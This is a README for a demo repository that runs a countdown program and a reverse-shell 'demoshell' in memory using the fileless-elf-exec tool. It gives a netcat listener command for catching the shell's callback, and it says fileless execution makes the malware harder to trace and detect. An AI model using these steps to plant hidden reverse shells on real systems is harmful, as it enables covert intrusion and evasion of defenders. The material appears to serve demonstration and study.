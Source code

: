 # fee_demo
- Demonstration of tool `fileless-elf-exec` (https://github.com/nnsee/fileless-elf-exec)
- Code for shell taken from https://gist.github.com/magisterquis/ce8b99b42188f4517efb3e1038a483de
### Usage
- Tutorial for usage on fedora Linux
- Install golang and fee: `bash install.sh`
- Compile countdown code: `bash compile_odb.sh`
- Compile shell code: `bash compile_shell.sh`
- Start countdown executable "normaly": `./odbrojavanje/odbrojavanje`
- Start countdown executable with `fee`: `python fee_odb.py`
- Start shell executable "normaly": `./shell/demoshell`
- Start shell executable with `fee`: `python fee_shell.py`
### Shell demo
- After starting the program, in the second terminal execute the following command: `rlwrap -S "$(printf '\033[95mds>\033[m ')" nc -nvlp 4444`
- You should enter the interactive shell in which you can execute any command
- The point of the attack is to execute demoshell on victim's computer and configure it to send a callback to attacker's computer
- In this scenario, victim and attacker are on the same host for simplicity
- When executed with `fee` (i.e. without using reading source file from disk) it is harder to trace and detect the malware (in this case demoshell)
### Difference
